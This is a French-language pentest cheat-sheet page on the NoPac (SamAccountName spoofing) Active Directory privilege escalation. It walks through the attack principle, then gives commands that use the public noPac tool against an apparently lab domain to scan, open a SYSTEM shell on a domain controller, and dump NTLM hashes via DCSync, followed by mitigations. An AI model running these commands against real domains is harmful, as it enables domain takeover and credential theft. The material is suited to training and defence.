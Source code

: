 # NoPac (SamAccountName Spoofing)

### <mark style="color:red;">NoPac (SamAccountName Spoofing)</mark>

***

La vulnérabilité _NoPac_ (aussi appelée _Sam\_The\_Admin_ ou _SamAccountName Spoofing_) est une menace émergente découverte fin 2021. Elle exploite deux vulnérabilités critiques de Windows Active Directory :

* **CVE-2021-42278** : Permet de modifier le SamAccountName d'un compte machine.
* **CVE-2021-42287** : Affecte le processus d'authentification Kerberos en permettant l'usurpation d'identité d'un DC.

En combinant ces deux failles, un attaquant peut escalader ses privilèges d'un simple utilisateur de domaine à un administrateur de domaine en une seule commande.

***

<mark style="color:green;">**Principe**</mark> <mark style="color:green;">**de**</mark> <mark style="color:green;">**l'attaque**</mark>

1. **Modification du SamAccountName** : L'attaquant modifie le nom de compte d'une machine pour correspondre à celui d'un DC.
2. **Obtention d'un Ticket Kerberos** : En demandant un Ticket-Granting Service (TGS), le service d'authentification Kerberos émet un ticket en fonction du nom le plus proche, accordant ainsi des privilèges élevés.
3. **Exploitation finale** : Une fois en possession d'un ticket Kerberos, l'attaquant obtient un accès administrateur sur le DC et peut exécuter des commandes système.

***

<mark style="color:green;">**Exploitation avec Impacket et NoPac**</mark>

#### <mark style="color:orange;">**Installation des outils**</mark>

```bash
# Cloner et installer Impacket
$ git clone https://github.com/SecureAuthCorp/impacket.git
$ cd impacket && python setup.py install

# Cloner le dépôt NoPac
$ git clone https://github.com/Ridter/noPac.git
```

#### <mark style="color:orange;">**Vérification de la vulnérabilité**</mark>

{% code overflow="wrap" fullWidth="true" %}
```bash
$ sudo python3 scanner.py inlanefreight.local/user:password -dc-ip 172.16.5.5 -use-ldap
```
{% endcode %}

#### <mark style="color:orange;">**Exploitation pour obtenir un shell SYSTEM**</mark>

{% code fullWidth="true" %}
```bash
$ sudo python3 noPac.py inlanefreight.local/user:password -dc-ip 172.16.5.5 \
    -dc-host DC_NAME -shell --impersonate administrator -use-ldap
```
{% endcode %}

Une fois exploité, un shell semi-interactif est ouvert sur le DC.

***

<mark style="color:green;">**Post-Exploitation : Dumping des Hashs avec DCSync**</mark>

{% code fullWidth="true" %}
```bash
$ sudo python3 noPac.py inlanefreight.local/user:password -dc-ip 172.16.5.5 \
    -dc-host DC_NAME --impersonate administrator -use-ldap -dump -just-dc-user inlanefreight/administrator
```
{% endcode %}

Cette commande permet d'extraire les hash NTLM des comptes sensibles (à utiliser avec `secretsdump.py`).

***

<mark style="color:green;">**Mesures de Mitigation**</mark>

* **Appliquer les correctifs** : Installer les mises à jour de Microsoft pour CVE-2021-42278 et CVE-2021-42287.
* **Désactiver la création automatique de comptes machines** : Mettre `ms-DS-MachineAccountQuota = 0` pour empêcher les utilisateurs standards d'ajouter des machines au domaine.
* **Surveiller les modifications de comptes machines** : Mettre en place des alertes SIEM sur les changements anormaux des `SamAccountName`.
* **Limiter les permissions Kerberos** : Restreindre l'accès aux tickets Kerberos pour empêcher l'usurpation d'identité.
